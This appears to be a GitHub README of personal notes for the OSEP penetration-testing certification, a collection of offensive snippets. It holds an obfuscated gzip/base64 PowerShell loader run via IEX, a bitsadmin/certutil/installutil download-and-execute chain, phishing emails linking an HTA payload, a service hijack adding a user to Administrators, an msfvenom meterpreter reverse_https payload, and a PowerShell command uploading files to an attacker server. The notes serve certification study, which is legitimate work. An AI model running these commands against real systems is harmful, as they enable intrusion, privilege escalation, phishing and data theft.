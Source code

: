 # OSEP-Notes

This repository contains notes, ideas, and experiments for various techniques and tactics relevant to Offensive Security's OSEP (Offensive Security Experienced Pentester) certification. The goal is to explore and refine advanced attack methodologies, particularly those involving process manipulation, shellcode injection, and evasion techniques.

# Misc Snippets
Unsorted code snippets that dont really have a home elsewhere

Runner for ligolo for bypassing applocker to get ligolo agent run from powershell.
```powershell
cmd /c "C:\Windows\Microsoft.NET\Framework64\v4.0.30319\installutil.exe /uninstall /logfile= /LogToConsole=false C:\programdata\LigoloShellRunner.exe"
```


Gzip and Base64 encode Powershell strings and script and execute
- https://www.zickty.com/texttogzip
- https://gchq.github.io/CyberChef/#recipe=Gzip('Dynamic%20Huffman%20Coding','','',false)To_Base64('A-Za-z0-9%2B/%3D')&input=d2hvYW1pIC9hbGw&oeol=FF

```powershell
$b = 'H4sIAAAAAAAAAyvPyE/MzQQAAirKwAYAAAA='
$g = [System.Convert]::FromBase64String($b)
$m = New-Object System.IO.MemoryStream(, $g)
$d = New-Object System.IO.MemoryStream
$z = New-Object System.IO.Compression.GZipStream($m, [IO.Compression.CompressionMode]::Decompress)
$z.CopyTo($d)
$d.Seek(0, [System.IO.SeekOrigin]::Begin) | Out-Null
$r = New-Object System.IO.StreamReader($d)
$s = $r.ReadToEnd()
$s | IEX
```

LOLBINS, Download and execute into InstallUtil

```
# Encode binary / file with certutil.exe
certutil -encode C:\Users\Hacker\Source\Repos\IgnoreCLM\IgnoreCLM\bin\x64\Release\IgnoreCLM.exe Data.txt

# Downloads with bitsadmin, decode with certutil back into a binary and execute with InstallUtils.
bitsadmin /Transfer myJob http://192.168.45.216/Data.txt C:\users\student\Data.txt && timeout /t 1 /nobreak >nul && certutil -decode C:\users\student\Data.txt C:\users\student\Data.exe && timeout /t 1 /nobreak >nul && del C:\users\student\Data.txt && timeout /t 1 /nobreak >nul && C:\Windows\Microsoft.NET\Framework64\v4.0.30319\installutil.exe /logfile= /LogToConsole=false /U "C:\users\student\Data.exe"
```
Send email to target 
``` bash
# swaks
swaks --body 'Free Loot --> http://192.168.45.170/PHP/test.hta' --add-header "Want sum loot?" --add-header "Content-Type: text/html" --header "Subject: Free loot" -t user@domain.com -f Shell@security.local --server 192.168.226.159

# sendmail
sendemail -t user@domain.com  -f Shell@security.local -s 192.168.226.159 -m "This is the main email body" -u "This is the subject line" -a /home/kali/Doc1.doc
```
Configure service to run a custom command. Explicity setting to run under SYSTEM
```
sc.exe config SNMPTRAP binpath= "net localgroup Administrators domain.local\user /add" obj= "LocalSystem"
```
use nc to scan all local ports
```
for port in {1..65535}; do nc -zv 127.0.0.1 $port 2>&1 | grep succeeded; done
```
auto migrate with metasploit
```
msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.45.154 LPORT=8080 -f csharp prependmigrateproc=explorer.exe prependmigrate=true
```
POST files to web server such as HFS.
```powershell
$f= "C:\pentest\ADenum_Report.html" ; $u= "http://192.168.45.194/Uploads/" ; $w= New-Object System.Net.WebClient ; $r= $w.UploadFile($u, "POST", $f)
```


## Macro Phishing Reminders
- Is the payload we are using x86?
- Are we communicating on a well known port?
- Have we tested in a dev environment first?
- Is the macro attached to the document (not global templates?)
## Good checklist
- https://github.com/ApexPredator-InfoSec/ETBD-OSEP

## CyberChef PowerShell -> Base64

- https://gchq.github.io/CyberChef/#recipe=Encode_text('UTF-16LE%20(1200)')To_Base64('A-Za-z0-9%2B/%3D')&input=d2hvYW1p

## PowerShell to C# Conversion

- **Dynamic Invocation in PowerShell and C#**: Ensure the correct use of `.MakeRefByType()` for any types that require referencing so the value is correctly reflected back to the function.

### Resources for Further Reading and Exploration

- **Useful Gists**:
  - [C# and PowerShell Shellcode Execution Examples](https://gist.github.com/xenoscr/99370ecffb07f629ae74e7808cb91450)


 
## Awesome list
- https://github.com/mantvydasb/RedTeaming-Tactics-and-Techniques/tree/master/offensive-security/code-injection-process-injection


## EDR Evasion Reading
- https://www.crow.rip/crows-nest/mal/dev/inject/syscalls/indirect-syscalls
- https://redops.at/en/blog/direct-syscalls-vs-indirect-syscalls
- https://d01a.github.io/syscalls/


### HTB

- https://z-r0crypt.github.io/blog/2023/04/27/htb-machines-for-osep-preparation/


